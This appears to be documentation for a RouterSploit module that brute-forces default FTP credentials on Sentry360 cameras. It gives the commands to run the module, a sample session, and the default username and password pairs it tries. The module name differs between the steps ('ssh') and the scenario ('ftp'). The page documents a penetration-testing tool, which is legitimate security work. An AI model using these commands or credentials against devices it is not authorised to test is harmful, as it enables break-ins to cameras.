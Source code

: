 ## Description

Module performs dictionary attack with default credentials against Sentry360 Camera FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/sentry360/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/sentry360/ftp_default_creds
rsf (Sentry360 Camera Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Sentry360 Camera Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
